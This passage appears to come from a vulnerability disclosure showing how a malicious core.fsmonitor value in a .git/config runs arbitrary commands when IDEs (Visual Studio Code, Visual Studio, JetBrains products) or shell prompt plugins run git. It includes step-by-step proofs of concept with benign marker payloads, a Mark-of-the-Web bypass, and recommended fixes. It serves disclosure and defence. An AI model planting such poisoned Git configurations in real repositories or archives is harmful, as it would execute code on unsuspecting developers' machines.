remote: Compressing objects: 100% (14/14), done.
remote: Total 27 (delta 0), reused 0 (delta 0), pack-reused 0
Receiving objects: 100% (27/27), done.
```

Remove `/tmp/win` and run Visual Studio Code against the cloned repo. Observe that our payload executes.

```plain
user@a46e008b1311:/tmp/tmp.QPIrSJLu3r$ rm /tmp/win

user@a46e008b1311:/tmp/tmp.QPIrSJLu3r$ cat /tmp/win
cat: /tmp/win: No such file or directory

user@a46e008b1311:/tmp/tmp.QPIrSJLu3r$ code 127.0.0.1/

[... Visual Studio Code opens as an X application ...]

user@a46e008b1311:/tmp/tmp.QPIrSJLu3r$ cat /tmp/win
Pwned as uid=31337(user) gid=31337(user) groups=31337(user)
```

Visual Studio Code dutifully ignored the Git repo in the root of the opened workspace and crawled the subdirectories looking for Git repos. Upon finding the embedded bare repo in the `poison/` it ran `git` against it, triggering the `core.fsmonitor` payload.

Note that exploitation via this process on Visual Studio Code >= 1.63.1 requires the user to trust the workspace being opened.

## Visual Studio - Arbitrary Command Execution

* Version tested: Visual Studio 2019 Community v. 16.10.4. Standalone Git not installed.
* Also tested: Visual Studio 2022 Community Preview 2.1 on Windows 10. Standalone Git not installed.
* Also tested: Visual Studio Community 2022 v. 17.1.1 on Windows 10. Standalone Git installed.

Unpatched as of 2022-03-15.

Visual Studio, when opening a Solution, parses a `.git` directory if it exists alongside the `.sln` file. Visual Studio ships with its own `git.exe` and so Git does not need to be installed on the system. Opening a Solution that has a `.git` directory containing a malicious `config` can cause Visual Studio to execute a payload via `core.fsmonitor`.

Of note is the fact that most browsers, when downloading files from the Web, apply an NTFS Alternative Data Stream named `Zone.Identifier`. This is commonly known as the "Mark of the Web" (MOTW). Visual Studio 2019 Community, when opening a Solution that has the MOTW, will prompt the user upon opening it. It will explain that opening projects from untrustworthy sources "could present a security risk by executing custom build steps when opened in Microsoft Visual Studio." It gives the user the opportunity to open the project anyway, or to cancel. Even if the user chooses to cancel, Git is still subsequently executed against the solution, and so a `core.fsmonitor` payload can still execute.

Visual Studio 2022 no longer uses the MOTW to decide whether to prompt a user when opening an untrustworthy Solution. It introduces a new feature called Trust Settings ([Announcement](https://docs.microsoft.com/en-au/visualstudio/ide/reference/trust-settings?view=vs-2022), [Documentation](https://docs.microsoft.com/en-au/visualstudio/ide/reference/trust-settings?view=vs-2022)). This feature will prompt upon the opening of any Solution, regardless of whether it has the MOTW, whether the user wants to open the Solution. The good news is that this trust flow is not vulnerable in the same way as Visual Studio 2019, i.e. choosing to not open the Solution at the point of being prompted does prevent exploitation via `core.fsmonitor` in Visual Studio 2022. The bad news is that the Trust Settings feature is disabled by default, making a user of out-of-the-box Visual Studio 2022 vulnerable (The [documentation as of the time of publication](https://web.archive.org/web/20211203164414/https://docs.microsoft.com/en-us/visualstudio/ide/reference/trust-settings?view=vs-2022&preserve-view=true) says "In Visual Studio 2022, we've revamped the Trust Settings functionality to show a warning whenever untrusted code is opened in the IDE \[...\] The Trusted locations feature is not enabled by default.").

### Visual Studio POC

This POC demonstrates exploitation of Visual Studio 2019, but the process for Visual Studio 2022 is the same.

Launch Visual Studio. Create a new project. Choose "C# Console Application" (.NET Core). Accept the defaults (Project name, location, solution name, target framework etc.)

Once the project has been created, close Visual Studio.

Create an empty Git repo alongside the solution:

```plain
C:\Users\justin> dir source\repos\ConsoleApp1
 Volume in drive C has no label.
 Volume Serial Number is 0E79-D457

 Directory of C:\Users\justin\source\repos\ConsoleApp1

13/08/2021  04:45 PM    <DIR>          .
13/08/2021  04:45 PM    <DIR>          ..
13/08/2021  04:45 PM    <DIR>          ConsoleApp1
13/08/2021  04:45 PM             1,139 ConsoleApp1.sln
               1 File(s)          1,139 bytes
               3 Dir(s)  64,797,212,672 bytes free

C:\Users\justin> "c:\Program Files (x86)\Microsoft Visual Studio\2019\Community\Common7\IDE\CommonExtensions\Microsoft\TeamFoundation\Team Explorer\Git\cmd\git.exe" -C source\repos\ConsoleApp1 init
Initialized empty Git repository in C:/Users/justin/source/repos/ConsoleApp1/.git/
```

Modify its `.git/config` to have a malicious `core.fsmonitor` value:

```plain
C:\Users\justin> notepad source\repos\ConsoleApp1\.git\config

[... Edit the file ...]

C:\Users\justin> type source\repos\ConsoleApp1\.git\config
[core]
        repositoryformatversion = 0
        filemode = false
        bare = false
        logallrefupdates = true
        symlinks = false
        ignorecase = true
        fsmonitor = calc
```

Open the `.sln` file within Visual Studio. Observe that `calc.exe` pops.

```plain
C:\Users\justin> start source\repos\ConsoleApp1\ConsoleApp1.sln

[... Visual Studio opens as a graphical application ...]
[... calc.exe pops ...]
```

### Visual Studio 2019 POC (Bypassing the MOTW protection)

Following on from the previous POC, use `explorer.exe` to compress the solution folder as a `.zip` file.

Use a Python webserver to publish the `.zip` file using HTTP:

```plain
C:\Users\justin> cd source\repos

C:\Users\justin\source\repos>dir
 Volume in drive C has no label.
 Volume Serial Number is 0E79-D457

 Directory of C:\Users\justin\source\repos

13/08/2021  04:52 PM    <DIR>          .
13/08/2021  04:52 PM    <DIR>          ..
13/08/2021  04:46 PM    <DIR>          ConsoleApp1
13/08/2021  04:52 PM            26,829 ConsoleApp1.zip
               1 File(s)         26,829 bytes
               3 Dir(s)  64,576,872,448 bytes free

C:\Users\justin\source\repos> %LOCALAPPDATA%\Programs\Python\Python39\python.exe -m http.server 4444
Serving HTTP on :: port 4444 (http://[::]:4444/) ...
```

Use Edge to download the `.zip` file, causing it to be written with the MOTW.

Extract the downloaded `.zip` file using `explorer.exe`, causing its contents to be written to disk with the MOTW. Note that using a different unarchiving tool may not cause the MOTW to be written (e.g. [As is the case with 7-Zip](https://sourceforge.net/p/sevenzip/bugs/1649/))

Open the extracted `.sln` file within Visual Studio. Observe that Visual Studio 2019 asks if you really want to open the project. Click "Cancel". Observe that despite doing so, `calc.exe` still pops.

```plain
C:\Users\justin\source\repos> start %USERPROFILE%\Downloads\ConsoleApp1\ConsoleApp1\ConsoleApp1.sln
```





## JetBrains IDEs - Arbitrary Command Execution (CVE-2022-24345)

Versions tested: IntelliJ IDEA 2021.2, PyCharm 2021.2, WebStorm 2021.2, PhpStorm 2021.2, Rider 2021.2, CLion 2021.2, RubyMine 2021.2, GoLand 2021.2

All testing was done on Linux

Fixed in 2021.3.1 via [Project Security](https://www.jetbrains.com/help/idea/project-security.html) which, among other things, disables all Version Control integrations if the user chooses to not trust a project.

JetBrains produces a [variety of language-specific IDEs](https://www.jetbrains.com/products/#type=ide) including:

* IntelliJ IDEA - Java
* PyCharm - Python
* WebStorm - JavaScript
* PhpStorm - PHP
* Rider - .NET
* CLion - C and C++
* RubyMine - Ruby
* GoLand - Go

All of these IDEs opportunistically parse a `.git` directory to provide Git functionality, and hence all of these IDEs can be tricked into executing a malicious `core.fsmonitor` payload.

Some of the JetBrains IDEs, prior to the introduction of Project Security, had a concept of "Safe" or "Preview" modes. If you opened a directory for which the product normally supports auto-executing commands or build scripts, it would prompt if you wish to open the directory in a mode that does not execute these startup items.

For example:

* IDEA offered this if a file named `build.gradle` exists in the directory
* CLion offered this if a file named `CMakeLists.txt` exists in the directory
* Rubymine offered this if a file named `Gemfile` exists in the directory

Note that this list is not necessarily exhaustive.

Until the introduction of Project Security, these modes did not disable Git integration. That is to say, even if the user chose not to trust the project given such a dialog in a JetBrains IDE prior to version 2021.3.1, `core.fsmonitor` payloads would still fire automatically.

### JetBrains IDEs POC

Create an empty Git repo:

```plain
% cd $(mktemp -d)

% mkdir poc

% git -C poc init
Initialized empty Git repository in /tmp/tmp.lH15HBm16d/poc/.git/
```

Modify its `.git/config` to have a malicious `core.fsmonitor` value:

```plain
user@7e031ffb2f03:/tmp/tmp.GnAV27DcXj$ echo $'\tfsmonitor = "echo \\"Pwned as $(id)\\">/tmp/win; false"' >> poc/.git/config

% echo $'\tfsmonitor = "echo \\"Pwned as $(id)\\">/tmp/win; false"' >> poc/.git/config
% cat poc/.git/config
[core]
	repositoryformatversion = 0
	filemode = true
	bare = false
	logallrefupdates = true
	fsmonitor = "echo \"Pwned as $(id)\">/tmp/win; false"
```

`touch` various files that trigger the "Safe" or "Preview" modes described above:

```plain
% touch poc/{build.gradle,CMakeLists.txt,Gemfile}

% ls -la poc
total 12
drwxr-xr-x 3 justin justin 4096 Aug 13 15:11 .
drwx------ 3 justin justin 4096 Aug 13 15:10 ..
drwxr-xr-x 7 justin justin 4096 Aug 13 15:10 .git
-rw-r--r-- 1 justin justin    0 Aug 13 15:11 CMakeLists.txt
-rw-r--r-- 1 justin justin    0 Aug 13 15:11 Gemfile
-rw-r--r-- 1 justin justin    0 Aug 13 15:11 build.gradle
```

Run each of the JetBrains IDEs against the `poc` directory and observe that the `core.fsmonitor` payload executes for each one. Furthermore, note that choosing to open the directory in "Safe" or "Preview" mode (where applicable) has no bearing on the execution of the payload.

```plain
% cat /tmp/win
cat: /tmp/win: No such file or directory

% idea poc

[... IDEA starts as an X application ...]
[... IDEA pauses during startup and asks "Trust and open Gradle Project?" ...]
[... Choose "Preview in Safe Mode" ...]

% cat /tmp/win
Pwned as uid=31337(justin) gid=31337(justin) groups=31337(justin),27(sudo),44(video)

% rm /tmp/win

% cat /tmp/win
cat: /tmp/win: No such file or directory

% pycharm poc

[... PyCharm opens as an X application ...]

% cat /tmp/win
Pwned as uid=31337(justin) gid=31337(justin) groups=31337(justin),27(sudo),44(video)

% rm /tmp/win

% cat /tmp/win
cat: /tmp/win: No such file or directory

% webstorm poc

[... WebStorm opens as an X application ...]

% cat /tmp/win
Pwned as uid=31337(justin) gid=31337(justin) groups=31337(justin),27(sudo),44(video)

% rm /tmp/win

% cat /tmp/win
cat: /tmp/win: No such file or directory

% phpstorm poc

[... PhpStorm opens as an X application ...]

% cat /tmp/win
Pwned as uid=31337(justin) gid=31337(justin) groups=31337(justin),27(sudo),44(video)

% rm /tmp/win

% cat /tmp/win
cat: /tmp/win: No such file or directory

% rider poc

[... Rider opens as an X application ...]

% cat /tmp/win
Pwned as uid=31337(justin) gid=31337(justin) groups=31337(justin),27(sudo),44(video)

% rm /tmp/win

% cat /tmp/win
cat: /tmp/win: No such file or directory

[... Clean up some things, else CLion thinks it's a Gradle project ...]

% rm -rf poc/.idea poc/build.gradle

% clion poc

[... CLion starts as an X application ...]
[... CLion pauses during startup and asks "Trust and Open CMake Project?" ...]
[... Choose "Preview in Safe Mode" ...]

% cat /tmp/win
Pwned as uid=31337(justin) gid=31337(justin) groups=31337(justin),27(sudo),44(video)

% rm /tmp/win

% cat /tmp/win
cat: /tmp/win: No such file or directory

[... Clean up some things, else RubyMine gets confused ...]

% rm -rf poc/.idea

[... RubyMine starts as an X application ...]
[... RubyMine shows a toaster popup asking "Trust project?" ...]
[... Ignore the popup ...]

% cat /tmp/win
Pwned as uid=31337(justin) gid=31337(justin) groups=31337(justin),27(sudo),44(video)

% rm /tmp/win

% cat /tmp/win
cat: /tmp/win: No such file or directory

% goland poc

[... GoLand starts as an X application ...]

% cat /tmp/win
Pwned as uid=31337(justin) gid=31337(justin) groups=31337(justin),27(sudo),44(video)
```

## Recommended fix for IDEs

Implement a safe mode that does not execute `git` opportunistically against opened directories/projects. Only execute `git` once the user had acknowledged the risks and has indicated that the directory is trustworthy.

If a user indicates that a directory is trustworthy, do not put the indication within the directory itself. If an attacker is in a position to exploit this issue (e.g. they have provided a tarball that will be unpacked) they can include the indication within the directory, defeating the protection.

# Exploitation via `core.fsmonitor` in shell prompts

Continuing the theme of abuse via `core.fsmonitor`, various shell prompt "decorations" can be exploited when using `cd` to change directory into a directory containing a malicious `.git` directory.

There are ways in which a user's shell can be configured to automatically parse and show, as part of the shell prompt, the status of a Git repository belonging to the current working directory. This is done by default in some shells, while in other shells there are plugins to do so.

As follows is an example of this prompt decoration using `git-prompt.sh` (Which itself is discussed in more detail below).

```plain
/tmp/tmp.qgKHzxrgHT# mkdir foobar

/tmp/tmp.qgKHzxrgHT# git -C foobar init
Initialized empty Git repository in /tmp/tmp.qgKHzxrgHT/foobar/.git/

/tmp/tmp.qgKHzxrgHT# cd foobar

/tmp/tmp.qgKHzxrgHT/foobar (main #)#

/tmp/tmp.qgKHzxrgHT/foobar (main #)# git checkout -b new_branch

Switched to a new branch 'new_branch'
/tmp/tmp.qgKHzxrgHT/foobar (new_branch #)#
```

Upon using `cd` to switch into the fresh Git repo, the prompt was updated to say "main" (the name of the branch). Upon using `git checkout -b` to switch to a new branch named `new_branch`, the prompt updated accordingly.

Many users enable this behaviour within their shell (or install software that enables it for them) and leave it turned on. Being a set-and-forget thing, or something that is enabled by default in certain shells or shell plugins, many people don't stop to think "I'm about to `cd` into a directory that contains untrustworthy contents. Do I really want to automatically run `git` against it?"

Note that this cannot generally be exploited through the use of `git clone` since it requires the attacker to control the contents of the `.git` directory. OVE-20210718-0001 could be used to bury a malicious repo within a cloneable parent repo, or an attacker could deliver the `.git` directory to the victim user in some other way (e.g. via an archive).

As a fun side note, the vulnerability of shell prompts is somewhat the inspiration of this larger body of work. When I started experimenting with `core.fsmonitor` I noticed that my prompt decoration was causing payloads to execute automatically. I quickly turned off my prompt decoration :)

The following sections will explore several ways in which a user's prompt can be configured to include Git information, and how to exploit them, including:

* `git-prompt.sh` - arbitrary command execution
* Oh My Zsh - arbitrary command execution
* Oh My Posh - arbitrary command execution
* posh-git - arbitrary command execution
* fish - arbitrary command execution

## `git-prompt.sh` - Arbitrary Command Execution

* Version tested: [2.32.0](https://github.com/git/git/blob/v2.32.0/contrib/completion/git-prompt.sh) on Linux
* Also tested: [2.35.1](https://github.com/git/git/blob/v2.35.1/contrib/completion/git-prompt.sh) on Linux

Unpatched as of 2022-03-15.

Git provides `git-prompt.sh` which provides a function that can be used in the prompt of many shells, such as Bash. Note that it needs to be installed into the shell environment manually.

<https://git-scm.com/book/en/v2/Appendix-A%3A-Git-in-Other-Environments-Git-in-Bash> says:

> It’s also useful to customize your prompt to show information about the current directory’s Git repository. This can be as simple or complex as you want, but there are generally a few key pieces of information that most people want, like the current branch, and the status of the working directory. To add these to your prompt, just copy the `contrib/completion/git-prompt.sh` file from Git’s source repository to your home directory, add something like this to your .bashrc:

```plain
. ~/git-prompt.sh
export GIT_PS1_SHOWDIRTYSTATE=1
export PS1='\w$(__git_ps1 " (%s)")\$ '
```

> The `\w` means print the current working directory, the `\$` prints the $ part of the prompt, and `__git_ps1 " (%s)"` calls the function provided by `git-prompt.sh` with a formatting argument. Now your bash prompt will look like this when you’re anywhere inside a Git-controlled project:

```plain
~/src/libgit2 (development *)$
```

In essence, installing and enabling the non-default `git-prompt.sh` functionality will cause the user's shell prompt to be decorated with various Git-related information when they use `cd` to switch to a directory that's within a Git repository.

[git-prompt.sh](https://github.com/git/git/blob/master/contrib/completion/git-prompt.sh) has many calls to `git` within it. It can be shown, when used as prescribed above, that arbitrary code execution can be triggered when using `cd` to switch into a directory containing a malicious `.git` directory.

Note however that, in my testing, a user needs to have the line `export GIT_PS1_SHOWDIRTYSTATE=1` in `~/.bashrc` for `core.fsmonitor` to fire when generating the shell prompt. This option is enabled when following the recommended setup instructions for `git-prompt.sh` (Shown above). Git Bash in the Windows install of Git uses `git-prompt.sh` but, by default, does not enable `GIT_PS1_SHOWDIRTYSTATE`.

### `git-prompt.sh` POC

Build a Docker image that contains `git`, a simple Git user configuration, `git-prompt.sh` and a `.bashrc` file configured as advised by the Git documentation:

```plain
% cat Dockerfile
FROM debian:sid

RUN \
    apt-get update && \
    apt-get install -y wget git && \
    git config --global init.defaultBranch main && \
    git config --global user.name "Your Name" && \
    git config --global user.email "you@example.com" && \
    wget -O ~/git-prompt.sh https://raw.githubusercontent.com/git/git/v2.32.0/contrib/completion/git-prompt.sh && \
    echo '. ~/git-prompt.sh' >> ~/.bashrc && \
    echo 'export GIT_PS1_SHOWDIRTYSTATE=1' >> ~/.bashrc && \
    echo 'export PS1='\''\w$(__git_ps1 " (%s)")\$ '\' >> ~/.bashrc

% sudo -g docker docker build --tag=justinsteven/git-prompt.sh .
[... SNIP ...]
Successfully built 39b7b65f5c72
Successfully tagged justinsteven/git-prompt.sh:latest
```

Run it:

```plain
% sudo -g docker docker run --rm -ti justinsteven/git-prompt.sh bash
/#
```

Create an empty Git repo:

```plain
/# cd $(mktemp -d)

/tmp/tmp.BulVIpkd2j# mkdir poc

/tmp/tmp.BulVIpkd2j# git -C poc init
Initialized empty Git repository in /tmp/tmp.BulVIpkd2j/poc/.git/
```

Modify its `.git/config` to have a malicious `core.fsmonitor` value:

```plain
/tmp/tmp.BulVIpkd2j# echo $'\tfsmonitor = "echo \\"Pwned as $(id)\\">/tmp/win; false"' >> poc/.git/config

/tmp/tmp.BulVIpkd2j# cat poc/.git/config
[core]
	repositoryformatversion = 0
	filemode = true
	bare = false
	logallrefupdates = true
	fsmonitor = "echo \"Pwned as $(id)\">/tmp/win; false"
```

Show that `/tmp/win` does not exist. `cd` into the directory containing the malicious `.git` directory and observe that `/tmp/win` contains the results of our payload:

```plain
/tmp/tmp.BulVIpkd2j# cat /tmp/win
cat: /tmp/win: No such file or directory

/tmp/tmp.BulVIpkd2j# cd poc

/tmp/tmp.BulVIpkd2j/poc (main #)# cat /tmp/win
Pwned as uid=0(root) gid=0(root) groups=0(root)
```

## Oh My Zsh - Arbitrary Command Execution

* Version tested: [d9ad995](https://github.com/ohmyzsh/ohmyzsh/blob/d9ad99531f74df8b0d6622feeab5e253528b43d0/plugins/git-prompt/gitstatus.py) on Linux
* Also tested: [c10241f](https://github.com/ohmyzsh/ohmyzsh/blob/c10241f3d1d7bf77d483e11869a6a00f1d2e5e88/plugins/git-prompt/gitstatus.py)

Unpatched as of 2022-03-15.

The [Z shell (zsh)](https://zsh.sourceforge.io/) is a shell that is "designed for interactive use, although it is also a powerful scripting language."

zsh is the default shell on macOS, and a popular non-default shell for other operating systems.

[Oh My Zsh](https://ohmyz.sh/) is a "delightful, open source, community-driven framework for managing your Zsh configuration". Note that it is optional, does not come with zsh, and is not maintained by zsh. What is most interesting for the purpose of this document is that Oh My Zsh ships with a number of "plugins", including a [Git prompt plugin](https://github.com/ohmyzsh/ohmyzsh/tree/master/plugins/git-prompt) which is enabled by default.

The plugin, if you are sitting within a directory that is part of a Git repo, decorates your shell prompt with a number of attributes. It does this by running `git status` (among a number of other Git commands) every time Zsh generates its `$PROMPT`.

e.g. [plugins/git-prompt/gitstatus.py](https://github.com/ohmyzsh/ohmyzsh/blob/23f9348e2c2341df71b1891eb4607f60ddd5a204/plugins/git-prompt/gitstatus.py#L39-L44) says:

```python
# `git status --porcelain --branch` can collect all information
# branch, remote_branch, untracked, staged, changed, conflicts, ahead, behind
po = Popen(['git', 'status', '--porcelain', '--branch'], env=dict(os.environ, LANG="C"), stdout=PIPE, stderr=PIPE)
stdout, sterr = po.communicate()
if po.returncode != 0:
    sys.exit(0)  # Not a git repository
```


### Oh My Zsh POC

Build a Docker image that contains `git`, a simple Git user configuration, `zsh` and `oh-my-zsh`:

```plain
% cat Dockerfile
FROM debian:sid

RUN \
    apt-get update && \
    apt-get install -y curl git zsh && \
    git config --global init.defaultBranch main && \
    git config --global user.name "Your Name" && \
    git config --global user.email "you@example.com" && \
    sh -c "$(curl -fsSL https://raw.githubusercontent.com/ohmyzsh/ohmyzsh/master/tools/install.sh)"

% sudo -g docker docker build --tag=justinsteven/oh-my-zsh .
[... SNIP ...]
Successfully built b86450559d44
Successfully tagged justinsteven/oh-my-zsh:latest
```

Run it:

```plain
% sudo -g docker docker run --rm -ti justinsteven/oh-my-zsh zsh

➜  / omz update
Updating Oh My Zsh
From https://github.com/ohmyzsh/ohmyzsh
 * branch            master     -> FETCH_HEAD
Current branch master is up to date.
         __                                     __
  ____  / /_     ____ ___  __  __   ____  _____/ /_
 / __ \/ __ \   / __ `__ \/ / / /  /_  / / ___/ __ \
/ /_/ / / / /  / / / / / / /_/ /    / /_(__  ) / / /
\____/_/ /_/  /_/ /_/ /_/\__, /    /___/____/_/ /_/
                        /____/

Oh My Zsh is already at the latest version.
To keep up with the latest news and updates, follow us on Twitter: https://twitter.com/ohmyzsh
Want to get involved in the community? Join our Discord: https://discord.gg/ohmyzsh
Get your Oh My Zsh swag at: https://shop.planetargon.com/collections/oh-my-zsh

➜  / git -C ~/.oh-my-zsh log -n1 | cat
commit d9ad99531f74df8b0d6622feeab5e253528b43d0
Author: Žiga Šebenik <sebenik@users.noreply.github.com>
Date:   Fri Jul 23 12:39:51 2021 +0200

    feat(plugins): add fnm plugin (#9864)
    
    Co-authored-by: Ziga Sebenik <ziga.sebenik@oryxgaming.com>
```

Create an empty Git repo:

```plain
➜  / cd $(mktemp -d)

➜  tmp.ZfzZ5FG196 mkdir poc

➜  tmp.ZfzZ5FG196 git -C poc init
Initialized empty Git repository in /tmp/tmp.ZfzZ5FG196/poc/.git/

➜  tmp.ZfzZ5FG196
```

Modify its `.git/config` to have a malicious `core.fsmonitor` value:

```plain
➜  tmp.ZfzZ5FG196 echo $'\tfsmonitor = "echo \\"Pwned as $(id)\\">/tmp/win; false"' >> poc/.git/config

➜  tmp.ZfzZ5FG196 cat poc/.git/config
[core]
	repositoryformatversion = 0
	filemode = true
	bare = false
	logallrefupdates = true
	fsmonitor = "echo \"Pwned as $(id)\">/tmp/win; false"
```

Show that `/tmp/win` does not exist. `cd` into the directory containing the malicious `.git` directory and show that `/tmp/win` now contains the results of our payload:

```plain
➜  tmp.ZfzZ5FG196 cat /tmp/win
cat: /tmp/win: No such file or directory

➜  tmp.ZfzZ5FG196 cd poc

➜  poc git:(main) cat /tmp/win

Pwned as uid=0(root) gid=0(root) groups=0(root)
```

## Oh My Posh - Arbitrary Command Execution

Version tested: [3.169.2](https://github.com/JanDeDobbeleer/oh-my-posh/tree/v3.169.2) on Windows 10

[Oh My Posh](https://ohmyposh.dev/docs/) is a "custom prompt engine for any shell that has the ability to adjust the prompt string with a function or variable" although it seems to be geared towards PowerShell users.

Oh My Posh provides a [Git segment](https://ohmyposh.dev/docs/git) which is enabled in the [jandedobbeleer theme](https://github.com/JanDeDobbeleer/oh-my-posh/blob/7bf528ef11b300bdbe64755211b096055f7b5fda/themes/jandedobbeleer.omp.json#L32-L47) that is suggested in the [installation guide](https://ohmyposh.dev/docs/pwsh)

### Oh My Posh POC

Install [Git for Windows](https://git-scm.com/download/win) ensuring you choose for the PATH to be set up such that you can use "Git from the command line and also from 3rd-party software" (the default).

Launch PowerShell:

```plain
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

Try the new cross-platform PowerShell https://aka.ms/pscore6

PS C:\Users\justin>
```

Install Oh My Posh:

```plain
PS C:\Users\justin> Install-Module oh-my-posh -Scope CurrentUser

[... SNIP ...]
```

Get its version:

```plain
PS C:\Users\justin> Get-Module oh-my-posh

ModuleType Version    Name                                ExportedCommands
---------- -------    ----                                ----------------
Script     3.169.2    oh-my-posh                          {Get-PoshInfoForV2Users, Get-PoshThemes, ..
```

Enable the jandedobbeleer Prompt Theme for the current PowerShell session:

```plain
PS C:\Users\justin> Set-PoshPrompt -Theme jandedobbeleer
 justin    ~  羽696ms                                    powershell   100  18:56:43 
```

Create an empty Git repo:

```plain
 justin    ~  羽31ms    mkdir poc                        powershell   100  18:57:14 


    Directory: C:\Users\justin


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
d-----        25/07/2021   6:57 PM                poc


 justin    ~  羽31ms    git -C poc init                  powershell   100  18:57:55 
Initialized empty Git repository in C:/Users/justin/poc/.git/
```

Modify its `.git/config` to have a malicious `core.fsmonitor` value:

```plain
 justin    ~  羽16ms   > Add-Content .\poc\.git\config "`tfsmonitor = calc"       18:59:04 
 justin    ~  羽33ms    type .\poc\.git\config           powershell   100  18:59:33 
[core]
        repositoryformatversion = 0
        filemode = false
        bare = false
        logallrefupdates = true
        symlinks = false
        ignorecase = true
        fsmonitor = calc
```

`cd` into the directory containing the malicious `.git` directory:

```plain
 justin    ~  羽32ms    cd poc                           powershell   100  19:00:01 
```

Observe that `calc.exe` pops.

## posh-git - Arbitrary Command Execution

Version tested: [1.0.0](https://github.com/dahlbyk/posh-git/tree/v1.0.0) on Windows 10

[posh-git](https://github.com/dahlbyk/posh-git) is "PowerShell module that integrates Git and PowerShell by providing Git status summary information that can be displayed in the PowerShell prompt". Arbitrary code can be executed if a user uses `cd` to switch into a directory that contains a malicious `.git` directory.

### posh-git POC

Install [Git for Windows](https://git-scm.com/download/win) ensuring you choose for the PATH to be set up such that you can use "Git from the command line and also from 3rd-party software" (the default).

Launch PowerShell:

```plain
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

Try the new cross-platform PowerShell https://aka.ms/pscore6

PS C:\Users\justin>
```

Install posh-git:

```plain
PS C:\Users\justin> PowerShellGet\Install-Module posh-git -Scope CurrentUser -Force

[... SNIP ...]
```

Import posh-git for the current PowerShell session:

```plain
PS C:\Users\justin> Import-Module posh-git

C:\Users\justin>
```

Get its version:

```plain
C:\Users\justin> get-module posh-git

ModuleType Version    Name                                ExportedCommands
---------- -------    ----                                ----------------
Script     1.0.0      posh-git                            {Add-PoshGitToProfile, Expand-GitCommand,..
```

Create an empty Git repo:

```plain
C:\Users\justin> mkdir poc


    Directory: C:\Users\justin


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
d-----        25/07/2021   7:11 PM                poc


C:\Users\justin> git -C poc init
Initialized empty Git repository in C:/Users/justin/poc/.git/
```

Modify its `.git/config` to have a malicious `core.fsmonitor` value:

```plain
C:\Users\justin> Add-Content .\poc\.git\config "`tfsmonitor = calc"

C:\Users\justin> type .\poc\.git\config
[core]
        repositoryformatversion = 0
        filemode = false
        bare = false
        logallrefupdates = true
        symlinks = false
        ignorecase = true
        fsmonitor = calc
```

`cd` into the directory containing the malicious `.git` directory:

```plain
C:\Users\justin> cd poc
C:\Users\justin\poc [master]>
```

Observe that `calc.exe` pops.

## fish - Arbitrary Command Execution (CVE-2022-20001)

* Version tested: [3.1.2](https://github.com/fish-shell/fish-shell/tree/3.1.2) on Linux

[Mitigated in 3.4.0](https://github.com/fish-shell/fish-shell/security/advisories/GHSA-pj5f-6vxj-f5mq) by explicitly overriding `core.fsmonitor` when executing `git`.

[fish](https://fishshell.com/) is "a smart and user-friendly command line shell for Linux, macOS, and the rest of the family"

fish provides the [fish_git_prompt()](https://github.com/fish-shell/fish-shell/blob/4bb1c72a910eb267704c1c4eed627c861abb017b/share/functions/fish_git_prompt.fish#L170) function which "displays information about the current git repository" ([documentation](https://github.com/fish-shell/fish-shell/blob/master/doc_src/cmds/fish_git_prompt.rst)). It is wrapped by the function [fish_vcs_prompt()](https://github.com/fish-shell/fish-shell/blob/4bb1c72a910eb267704c1c4eed627c861abb017b/share/functions/fish_vcs_prompt.fish#L1) ([documentation](https://github.com/fish-shell/fish-shell/blob/master/doc_src/cmds/fish_vcs_prompt.rst)) and is intended to be incorporated into the user's prompt much like the facilities discussed previously. This wrapper function is in fact called in the [default fish_prompt()](https://github.com/fish-shell/fish-shell/blob/1908cf95deceeb93e2e3304090c872e2e9c0e33b/share/functions/fish_prompt.fish#L33) function. This means that the user of an out-of-the-box fish install can be exploited when using `cd` to switch directory into a malicious Git repo.

Note, however, that `fish_git_prompt()` does not (in my testing) execute any Git operations that trigger `core.fsmonitor` [unless the `bash.showInformativeStatus` Git configuration directive is set to true](https://github.com/fish-shell/fish-shell/blob/4bb1c72a910eb267704c1c4eed627c861abb017b/share/functions/fish_git_prompt.fish#L217). Since we are assuming that an attacker can trick a user into using `cd` to switch into a directory where the attacker controls `.git/config`, we can set this value ourselves.

### fish POC

Build a Docker image that contains `git`, a simple Git user configuration, and `fish`:

```plain
% cat Dockerfile
FROM debian:sid

RUN \
    apt-get update && \
    apt-get install -y fish git && \
    git config --global init.defaultBranch main && \
    git config --global user.name "Your Name" && \
    git config --global user.email "you@example.com"

% sudo -g docker docker build --tag=justinsteven/fish .
[... SNIP ...]
Successfully built 83ddaf7638ed
Successfully tagged justinsteven/fish:latest
```

Run it:

```plain
% sudo -g docker docker run --rm -ti justinsteven/fish fish
Welcome to fish, the friendly interactive shell
Type `help` for instructions on how to use fish

root@597491899f24 /# fish --version
fish, version 3.1.2
```

Create an empty Git repo:

```plain
root@597491899f24 /# cd (mktemp -d)

root@597491899f24 /t/tmp.6inU1M7cCW# mkdir poc

root@597491899f24 /t/tmp.6inU1M7cCW# git -C poc init
Initialized empty Git repository in /tmp/tmp.6inU1M7cCW/poc/.git/
```

Modify its `.git/config` to have a malicious `core.fsmonitor` value and to have `bash.showInformativeStatus` set to true:

```plain
root@597491899f24 /t/tmp.6inU1M7cCW# echo -e '\tfsmonitor = "echo \\"Pwned as $(id)\\">/tmp/win; false"' >> poc/.git/config

root@597491899f24 /t/tmp.6inU1M7cCW# echo '[bash]' >> poc/.git/config

root@597491899f24 /t/tmp.6inU1M7cCW# echo -e '\tshowInformativeStatus = true' >> poc/.git/config

root@597491899f24 /t/tmp.6inU1M7cCW# cat poc/.git/config
[core]
	repositoryformatversion = 0
	filemode = true
	bare = false
	logallrefupdates = true
	fsmonitor = "echo \"Pwned as $(id)\">/tmp/win; false"
[bash]
	showInformativeStatus = true
```

Show that `/tmp/win` does not exist. `cd` into the directory containing the malicious `.git` directory and show that `/tmp/win` now contains the results of our payload:

```plain
root@597491899f24 /t/tmp.6inU1M7cCW# cat /tmp/win
cat: /tmp/win: No such file or directory

root@597491899f24 /t/tmp.6inU1M7cCW [1]# cd poc

root@597491899f24 /t/t/poc (main ✔)# cat /tmp/win
Pwned as uid=0(root) gid=0(root) groups=0(root)
```

## Addendum - exploitation via `tar -x`

